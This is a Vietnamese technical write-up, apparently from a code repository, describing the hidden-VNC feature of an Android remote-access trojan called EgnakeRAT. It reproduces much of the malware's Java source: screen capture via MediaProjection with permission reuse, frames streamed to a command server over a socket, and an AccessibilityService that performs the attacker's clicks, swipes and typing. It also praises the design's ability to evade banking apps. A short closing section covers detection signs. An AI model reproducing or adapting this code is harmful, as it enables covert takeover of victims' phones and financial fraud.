

# Phân Tích Kỹ Thuật: Cơ Chế Hoạt Động của hVNC (Hidden VNC) trên EgnakeRAT

Tài liệu này giải thích chi tiết cơ chế hoạt động của tính năng **hVNC (Hidden Virtual Network Computing)** — hay còn gọi là điều khiển màn hình và tương tác từ xa ẩn danh — trên mã độc **EgnakeRAT**. 

Trên hệ điều hành Android, việc chạy một máy chủ VNC truyền thống chạy ngầm mà không có sự tương tác hay nhận biết của người dùng là điều không thể thực hiện trực tiếp do các cơ chế bảo mật của hệ thống. Để vượt qua rào cản này, EgnakeRAT kết hợp đồng thời hai dịch vụ hệ thống khác nhau:
1. **Dịch vụ Truyền hình ảnh màn hình thời gian thực (Output Stream)**: Đảm nhận bởi [ScreenStreamService.java](file:///c:/Users/Admin/Desktop/EgnakeRAT-main/EgnakeRAT-main/Android_Code/app/src/main/java/com/egnakerat/system/Payloads/ScreenStreamService.java) thông qua API **MediaProjection**.
2. **Dịch vụ Giả lập tương tác vật lý (Input Stream / Remote Actions)**: Đảm nhận bởi [RATAccessibilityService.java](file:///c:/Users/Admin/Desktop/EgnakeRAT-main/EgnakeRAT-main/Android_Code/app/src/main/java/com/egnakerat/system/RATAccessibilityService.java) thông qua API **AccessibilityService**.

Sự kết hợp này tạo ra một vòng lặp điều khiển khép kín (Closed-loop Remote Control) hoàn chỉnh.

---

## Sơ Đồ Kiến Trúc Hoạt Động



---

## 1. Cơ Chế Truyền Hình Ảnh Màn Hình (`ScreenStreamService.java`)

Khi kẻ tấn công kích hoạt tính năng xem màn hình trực tiếp từ Web Dashboard, lệnh `startScreenStream` được gửi tới client. Tiến trình chụp và truyền tải màn hình được triển khai chi tiết trong lớp [ScreenStreamService](file:///c:/Users/Admin/Desktop/EgnakeRAT-main/EgnakeRAT-main/Android_Code/app/src/main/java/com/egnakerat/system/Payloads/ScreenStreamService.java).

### A. Cấp quyền ghi hình (MediaProjection)
Để chụp màn hình, Android yêu cầu quyền truy cập thông qua dịch vụ `MediaProjectionManager`. Đây là một quyền nhạy cảm yêu cầu sự đồng ý từ người dùng thông qua một hộp thoại hệ thống không thể bypass bằng code thông thường.
* **Quy trình bypass thực tế của mã độc**: Khi ứng dụng được kích hoạt lần đầu hoặc khi xin quyền, nó sẽ hiển thị màn hình yêu cầu cấp quyền ghi hình.
* Khi người dùng đồng ý, kết quả (`resultCode` và `resultData`) được lưu trữ tĩnh trong [ScreenStreamService](file:///c:/Users/Admin/Desktop/EgnakeRAT-main/EgnakeRAT-main/Android_Code/app/src/main/java/com/egnakerat/system/Payloads/ScreenStreamService.java#L77-L80):
  ```java
  // Lưu kết quả xin quyền ghi hình từ MainActivity
  public static void setMediaProjectionResult(int code, Intent data) {
      resultCode = code;
      resultData = data;
  }
  ```
* Kể từ thời điểm này, dịch vụ C2 Server có thể tự ý khởi động hoặc tắt luồng truyền màn hình bất kỳ lúc nào mà không cần hiển thị lại yêu cầu xin quyền.
* **Đoạn mã khởi tạo luồng quay màn hình ảo (VirtualDisplay)**:
  ```java
  // Trích xuất từ startStreaming() trong ScreenStreamService.java
  mediaProjection = projectionManager.getMediaProjection(resultCode, resultData);
  if (mediaProjection == null) {
      Log.e(TAG, "Failed to create MediaProjection");
      return;
  }

  // Setup background thread để loop chụp màn hình
  backgroundThread = new HandlerThread("ScreenStreamThread");
  backgroundThread.start();
  backgroundHandler = new Handler(backgroundThread.getLooper());

  // ImageReader chứa đệm pixel định dạng RGBA_8888 kích thước 1280x720 (720p)
  imageReader = ImageReader.newInstance(STREAM_WIDTH, STREAM_HEIGHT, PixelFormat.RGBA_8888, 2);

  // Gương màn hình thực của thiết bị vào ImageReader Surface
  virtualDisplay = mediaProjection.createVirtualDisplay(
          "ScreenStream",
          STREAM_WIDTH, STREAM_HEIGHT, screenDensity,
          DisplayManager.VIRTUAL_DISPLAY_FLAG_AUTO_MIRROR,
          imageReader.getSurface(),
          null, backgroundHandler);
  ```

### B. Cơ chế Chụp & Đóng gói Ảnh Màn hình
Sau khi thiết lập `VirtualDisplay` hoàn tất, luồng nền thực thi chu kỳ chụp màn hình dựa trên cấu hình FPS (mặc định 5 FPS):
1. **Vòng lặp Chụp ảnh (Capture Loop)**:
   ```java
   // Trích xuất từ captureLoop() trong ScreenStreamService.java
   private void captureLoop() {
       if (!streaming) return;

       try {
           // Đọc frame ảnh mới nhất từ bộ đệm ImageReader
           Image image = imageReader.acquireLatestImage();
           if (image != null) {
               // Chuyển đổi đối tượng Image thành chuỗi JPEG mã hóa Base64
               String frameBase64 = imageToBase64Jpeg(image);
               image.close();

               if (frameBase64 != null) {
                   ConnectionManager conn = RATService.activeConnection;
                   if (conn != null && conn.isConnected()) {
                       // Gửi frame qua TCP Socket
                       conn.sendScreenFrame(frameBase64);
                   } else {
                       stopStreaming();
                       return;
                   }
               }
           }
       } catch (Exception e) {
           Log.e(TAG, "Frame capture error: " + e.getMessage());
       }

       // Đặt lịch lấy frame tiếp theo dựa trên FPS cấu hình (1000ms / FPS)
       if (streaming && backgroundHandler != null) {
           backgroundHandler.postDelayed(this::captureLoop, 1000 / fps);
       }
   }
   ```
2. **Loại bỏ Padding của hệ thống & Nén ảnh**:
   Hệ thống Android thường chèn byte đệm trống (row padding) ở cuối các hàng pixel của màn hình để tối ưu hóa truy xuất phần cứng. Hàm `imageToBase64Jpeg()` xử lý loại bỏ byte đệm trống này trước khi nén JPEG:
   ```java
   // Trích xuất từ imageToBase64Jpeg() trong ScreenStreamService.java
   private String imageToBase64Jpeg(Image image) {
       try {
           Image.Plane[] planes = image.getPlanes();
           if (planes.length == 0) return null;

           ByteBuffer buffer = planes[0].getBuffer();
           int pixelStride = planes[0].getPixelStride();
           int rowStride = planes[0].getRowStride();
           // Tính toán độ lệch byte đệm (rowPadding)
           int rowPadding = rowStride - pixelStride * STREAM_WIDTH;

           // Tạo đối tượng Bitmap từ byte buffer thô (bao gồm cả padding)
           Bitmap bitmap = Bitmap.createBitmap(
                   STREAM_WIDTH + rowPadding / pixelStride,
                   STREAM_HEIGHT,
                   Bitmap.Config.ARGB_8888);
           bitmap.copyPixelsFromBuffer(buffer);

           // Cắt bỏ phần padding thừa bên phải ảnh để lấy đúng 1280x720
           if (bitmap.getWidth() > STREAM_WIDTH) {
               Bitmap cropped = Bitmap.createBitmap(bitmap, 0, 0, STREAM_WIDTH, STREAM_HEIGHT);
               bitmap.recycle();
               bitmap = cropped;
           }

           // Nén chất lượng ảnh JPEG xuống 60%
           ByteArrayOutputStream baos = new ByteArrayOutputStream();
           bitmap.compress(Bitmap.CompressFormat.JPEG, JPEG_QUALITY, baos);
           bitmap.recycle();

           byte[] jpegBytes = baos.toByteArray();
           // Mã hóa Base64 không xuống dòng để gửi qua socket
           return Base64.encodeToString(jpegBytes, Base64.NO_WRAP);

       } catch (Exception e) {
           Log.e(TAG, "Image conversion error: " + e.getMessage());
           return null;
       }
   }
   ```

---

## 2. Cơ Chế Giả Lập Tương Tác Vật Lý (`RATAccessibilityService.java`)

Khi kẻ tấn công quan sát màn hình trực tiếp từ dashboard và nhấp chuột hoặc vuốt, tọa độ đó được ánh xạ ngược về thiết bị. Lớp [RATAccessibilityService](file:///c:/Users/Admin/Desktop/EgnakeRAT-main/EgnakeRAT-main/Android_Code/app/src/main/java/com/egnakerat/system/RATAccessibilityService.java) đón nhận lệnh tương tác qua phương thức `performRemoteAction`.

### A. Hàm tổng quát phân phối hành động (`performRemoteAction`)
```java
// Trích xuất từ RATAccessibilityService.java
public boolean performRemoteAction(String action, JSONObject params) {
    try {
        switch (action) {
            case "back":          return performGlobalAction(GLOBAL_ACTION_BACK);
            case "home":          return performGlobalAction(GLOBAL_ACTION_HOME);
            case "recents":       return performGlobalAction(GLOBAL_ACTION_RECENTS);
            case "notifications": return performGlobalAction(GLOBAL_ACTION_NOTIFICATIONS);
            case "quickSettings": return performGlobalAction(GLOBAL_ACTION_QUICK_SETTINGS);
            case "powerDialog":   return performGlobalAction(GLOBAL_ACTION_POWER_DIALOG);
            case "lockScreen":
                if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.P) {
                    return performGlobalAction(GLOBAL_ACTION_LOCK_SCREEN);
                }
                return false;
            case "screenshot":
                if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.P) {
                    return performGlobalAction(GLOBAL_ACTION_TAKE_SCREENSHOT);
                }
                return false;
            case "click":         return performClickAction(params);
            case "swipe":         return performSwipeAction(params);
            case "scroll":        return performScrollAction(params);
            case "typeText":      return performTypeText(params);
            default:
                Log.w(TAG, "Unknown action: " + action);
                return false;
        }
    } catch (Exception e) {
        Log.e(TAG, "Remote action error: " + e.getMessage());
        return false;
    }
}
```

### B. Giả lập Cú Click (Bấm vào tọa độ X, Y)
Sử dụng cử chỉ đột ngột không di chuyển (stroke duration 50ms) tại vị trí chỉ định:
```java
// Trích xuất từ performClickAction() trong RATAccessibilityService.java
private boolean performClickAction(JSONObject params) {
    if (Build.VERSION.SDK_INT < Build.VERSION_CODES.N) return false;
    try {
        int x = params.optInt("x", 540);
        int y = params.optInt("y", 960);

        Path clickPath = new Path();
        clickPath.moveTo(x, y);

        // Tạo cấu trúc cử chỉ nhấn chuột ảo
        GestureDescription.Builder builder = new GestureDescription.Builder();
        builder.addStroke(new GestureDescription.StrokeDescription(clickPath, 0, 50));
        
        // Phát lệnh click trên toàn hệ thống
        return dispatchGesture(builder.build(), null, null);
    } catch (Exception e) {
        Log.e(TAG, "Click action error: " + e.getMessage());
        return false;
    }
}
```

### C. Giả lập Vuốt (Swipe / Drag)
Sử dụng nét vẽ tuyến tính từ tọa độ điểm xuất phát `(x1, y1)` sang điểm đích `(x2, y2)`:
```java
// Trích xuất từ performSwipeAction() trong RATAccessibilityService.java
private boolean performSwipeAction(JSONObject params) {
    if (Build.VERSION.SDK_INT < Build.VERSION_CODES.N) return false;
    try {
        int x1 = params.optInt("x1", 540);
        int y1 = params.optInt("y1", 1200);
        int x2 = params.optInt("x2", 540);
        int y2 = params.optInt("y2", 400);
        int duration = params.optInt("duration", 300);

        Path swipePath = new Path();
        swipePath.moveTo(x1, y1);
        swipePath.lineTo(x2, y2);

        // Xây dựng cử chỉ vuốt
        GestureDescription.Builder builder = new GestureDescription.Builder();
        builder.addStroke(new GestureDescription.StrokeDescription(swipePath, 0, duration));
        
        // Phát lệnh vuốt
        return dispatchGesture(builder.build(), null, null);
    } catch (Exception e) {
        Log.e(TAG, "Swipe action error: " + e.getMessage());
        return false;
    }
}
```

### D. Giả lập Cuộn màn hình (Scroll)
Mã độc quét đệ quy cây giao diện nhằm tìm phần tử cuộn được (`ListView`, `RecyclerView`, `ScrollView`) và cuộn nó:
```java
// Trích xuất từ performScrollAction() trong RATAccessibilityService.java
private boolean performScrollAction(JSONObject params) {
    try {
        String direction = params.optString("direction", "down");
        AccessibilityNodeInfo root = getRootInActiveWindow();
        if (root == null) return false;

        // Quét tìm view có thể cuộn được
        AccessibilityNodeInfo scrollable = findScrollable(root);
        if (scrollable != null) {
            boolean result;
            if ("up".equals(direction)) {
                result = scrollable.performAction(AccessibilityNodeInfo.ACTION_SCROLL_BACKWARD);
            } else {
                result = scrollable.performAction(AccessibilityNodeInfo.ACTION_SCROLL_FORWARD);
            }
            scrollable.recycle();
            root.recycle();
            return result;
        }
        root.recycle();
        return false;
    } catch (Exception e) {
        Log.e(TAG, "Scroll action error: " + e.getMessage());
        return false;
    }
}

// Hàm duyệt đệ quy tìm thuộc tính isScrollable()
private AccessibilityNodeInfo findScrollable(AccessibilityNodeInfo node) {
    if (node == null) return null;
    if (node.isScrollable()) return node;
    for (int i = 0; i < node.getChildCount(); i++) {
        AccessibilityNodeInfo child = node.getChild(i);
        if (child != null) {
            AccessibilityNodeInfo result = findScrollable(child);
            if (result != null) return result;
            child.recycle();
        }
    }
    return null;
}
```

### E. Giả lập Nhập Liệu (Type Text)
Ghi trực tiếp ký tự văn bản vào phần tử nhập đang được người dùng/hệ thống trỏ nét:
```java
// Trích xuất từ performTypeText() trong RATAccessibilityService.java
private boolean performTypeText(JSONObject params) {
    try {
        String text = params.optString("text", "");
        AccessibilityNodeInfo root = getRootInActiveWindow();
        if (root == null) return false;

        // Tìm view đang nhận focus đầu vào nhập liệu
        AccessibilityNodeInfo focused = root.findFocus(AccessibilityNodeInfo.FOCUS_INPUT);
        if (focused != null) {
            Bundle args = new Bundle();
            args.putCharSequence(AccessibilityNodeInfo.ACTION_ARGUMENT_SET_TEXT_CHARSEQUENCE, text);
            // Thực thi ghi đè/nhập văn bản
            boolean result = focused.performAction(AccessibilityNodeInfo.ACTION_SET_TEXT, args);
            focused.recycle();
            root.recycle();
            return result;
        }
        root.recycle();
        return false;
    } catch (Exception e) {
        Log.e(TAG, "Type text error: " + e.getMessage());
        return false;
    }
}
```

---

## 3. Lệnh Điều Phối Kết Nối (`CommandRouter.java`)

Tại [CommandRouter.java](file:///c:/Users/Admin/Desktop/EgnakeRAT-main/EgnakeRAT-main/Android_Code/app/src/main/java/com/egnakerat/system/CommandRouter.java), các yêu cầu mạng nhận được liên quan tới hVNC được xử lý như sau để chuyển tiếp sang hai dịch vụ trên:

### A. Khởi tạo/Kết thúc Ghi Màn hình (`handleStartScreenStream`)
```java
// Trích xuất từ CommandRouter.java
private void handleStartScreenStream(String cmdId, JSONObject args) {
    try {
        int fps = args.optInt("fps", 5);
        Intent serviceIntent = new Intent(context, ScreenStreamService.class);
        // Gửi lệnh "startStream" kèm cấu hình FPS sang ScreenStreamService
        serviceIntent.putExtra("ins", "startStream");
        serviceIntent.putExtra("fps", fps);
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.O) {
            context.startForegroundService(serviceIntent);
        } else {
            context.startService(serviceIntent);
        }
        JSONObject data = new JSONObject();
        data.put("status", "Screen streaming started at " + fps + " FPS");
        connection.sendResponse(cmdId, "success", data);
    } catch (Exception e) {
        sendError(cmdId, e.getMessage());
    }
}
```

### B. Ủy nhiệm Thực thi cử chỉ qua Accessibility Service (`handlePerformAction`)
```java
// Trích xuất từ CommandRouter.java
private void handlePerformAction(String cmdId, JSONObject args) {
    try {
        String action = args.optString("action", "");
        RATAccessibilityService svc = RATAccessibilityService.getInstance();
        if (svc != null && !action.isEmpty()) {
            // Chuyển tiếp yêu cầu cử chỉ tới Singleton Instance của RATAccessibilityService
            boolean result = svc.performRemoteAction(action, args);
            JSONObject data = new JSONObject();
            data.put("action", action);
            data.put("result", result);
            connection.sendResponse(cmdId, result ? "success" : "error", data);
        } else {
            sendError(cmdId, "Accessibility Service not active or missing action");
        }
    } catch (Exception e) {
        sendError(cmdId, e.getMessage());
    }
}
```

---

## 4. Tóm Tắt Ưu & Nhược Điểm của Cơ Chế hVNC này

### Ưu điểm (Dưới góc độ của mã độc):
* **Tính cơ động cao**: Không cần can thiệp quyền root (superuser) của hệ điều hành Android vẫn có thể điều khiển toàn diện màn hình nhờ lạm dụng Accessibility Service.
* **Hoạt động ngầm**: Sau khi được cấp quyền ghi hình một lần, tiến trình quay màn hình ảo (`VirtualDisplay`) có thể chạy ngầm lặng lẽ dưới danh nghĩa một Foreground Service hệ thống ("System Service").
* **Bypass các giải pháp bảo mật**: Vì các hành động click/swipe được gửi qua API chính thống của hệ điều hành (`AccessibilityService`), các ứng dụng mục tiêu (như ngân hàng, ví điện tử) rất khó phân biệt giữa thao tác thật của người dùng và cử chỉ giả lập của phần mềm hỗ trợ tiếp cận.

### Nhược điểm & Cách phát hiện (Dưới góc độ Bảo mật):
* **Tác động phần cứng (Pin & Nhiệt độ)**: Việc chụp ảnh liên tục từ màn hình ảo, nén ảnh JPEG và gửi dữ liệu Base64 liên tục qua mạng ngầm tiêu tốn rất nhiều tài nguyên CPU và băng thông mạng, làm thiết bị nóng lên và hao pin bất thường kể cả khi không sử dụng.
* **Yêu cầu tương tác ban đầu**: Bắt buộc phải có sự đồng ý của người dùng cho quyền `MediaProjection` (Ghi màn hình) và kích hoạt `Accessibility Service` thủ công trong cài đặt.
* **Dấu hiệu mạng đặc trưng**: Việc gửi lượng lớn dữ liệu ảnh Base64 liên tiếp qua một TCP Socket thô không mã hóa TLS (thường kết nối đến các proxy như Ngrok) là hành vi bất thường, dễ dàng bị phát hiện bởi các hệ thống giám sát mạng IDS/IPS hoặc công cụ phân tích lưu lượng (Wireshark).
